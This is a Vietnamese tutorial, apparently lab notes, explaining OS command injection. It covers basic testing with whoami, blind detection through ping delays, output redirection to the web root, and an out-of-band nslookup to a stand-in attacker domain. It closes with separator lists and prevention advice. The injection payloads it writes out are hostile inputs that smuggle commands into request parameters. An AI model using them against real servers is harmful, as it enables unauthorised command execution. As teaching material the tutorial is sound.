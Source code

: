 # **OS command injection**

## **OS command injection là gì?**

![](./img_OS/1.png)

- OS command injection (Shell injection) là một lỗ hổng bảo mật web cho phép kẻ tấn công thực thi các lệnh hệ điều hành OS tùy ý trên máy chủ đang chạy ứng dụng. Rất thường xuyên. kẻ tấn công có thể tận dụng lỗ hổng os command để xâm phậm các phần khác của database, khai thác các mỗi quan hệ tin cậy để chuyển cuộc tấn công sang các hệ thống khác trong tổ chức.

- Dưới đây là một ví dụ về một ứng dụng web có chứa lỗ hổng os command injection.

![](./img_OS/2.png)

- Ở trang web có chức năng kiểm tra số lượng hàng hóa. Nhưng có lỗ hổng về os command injection.

![](./img_OS/3.png)

- Như ta đã thấy nó sử dụng parameter productId và storeId để kiểm tra hàng tồn kho. Từ đấy, tôi đã thử lệnh whoami đối với tham số như sau:

![](./img_OS/4.png)

## **OS command thường được sử dụng**

![](./img_OS/5.png)

## **Blind command injection**

### **Detecting blind OS command injection using time delays**

- Bạn có thể sử dụng lệnh được đưa vào sẽ kích hoạt thời gian trễ, cho phép bạn xác nhận rằng lệnh đã được thực thi dựa trên thời gian ứng dụng cần để phản hồi. Lệnh ping là một cách hiệu quả để thực hiện việc này, vì nó cho phép bạn chỉ định số lượng gói ICMP sẽ gửi và do đó, thời gian để lệnh chạy:

```os
& ping -c 10 127.0.0.1 &
```

- Lệnh này sẽ khiến ứng dụng ping bộ điều hợp mạng loopback của nó trong 10 giây.

- Dưới đây là một ví dụ về blind os command. Khi tôi thử với `whoami` thì tôi không thấy một chút thông tin gì ở response. Nên tôi không biết lỗ hổng os command có thực sự hoạt động hay không nên tôi đã thử với việc delay thời gian 10s và dòng lệnh đã thực sự hoạt động.

![](./img_OS/6.png)

### **Exploiting blind OS command injection by redirecting output**

- Bạn có thể chuyển hướng output vào một tệp trong thư mục gốc của web mà bạn có thể truy xuất trên trình duyệt.

```
& whoami > /var/www/static/whoami.txt &
```

- Sau đó, chúng ta có thể truy xuất file whoami.txt trên trình duyệt `https://vulnerable-website.com/whoami.txt`.

![](./img_OS/7.png)

### **Exploiting blind OS command injection using out-of-band (OAST) techniques**

- Chúng ta có thể sử dụng kĩ thuật out-of-band thông qua câu lệnh nslookup.

```
& nslookup kgji2ohoyw.web-attacker.com &
```

- Sử dụng lệnh nslookup để thực hiện tra cứu DNS cho miền được chỉ định. Kẻ tấn công có thể theo dõi quá trình tra cứu được chỉ định xảy ra và do đó phát hiện ra rằng lệnh đã được đưa vào thành công.

![](./img_OS/8.png)

## **Các cách dùng để Command Injection**

- Đầu tiên cần phải xác định được hệ thống target đang hoạt động là gì, Windows hay Linux? Một số ký tự có chức năng phân tách lệnh, cho phép các lệnh nối với nhau:
  - &
  - &&
  - |
  - ||
- Các bộ tách lệnh sau chỉ hoạt động trên các hệ thống dựa trên Unix:
  - ;
  - Newline (0x0a or \n)
- \`
injected command `
- $(injected command )

## **Làm sao để ngăn ngừa Command Injection**

- Cách hiệu quả nhất để ngăn ngừa command injection là không dùng command nữa. Tức là không bao giờ gọi ra các lệnh OS từ lớp ứng dụng. Trong các trường hợp, có nhiều cách khác nhau để thực hiện chức năng cần thiết bằng cách sử dụng API trên nền tảng an toàn hơn. Nếu không thể tránh khỏi việc sử dụng các lệnh OS thì phải thực hiện xác thực đầu vào mạnh

  - Chỉ chấp nhận đối với các giá trị được phép
  - Chỉ chấp nhận đầu vào là một số
  - Chỉ chấp nhận đầu vào chỉ có ký tự chữ và số, không có ký tự đặc biệt, khoảng trắng,...
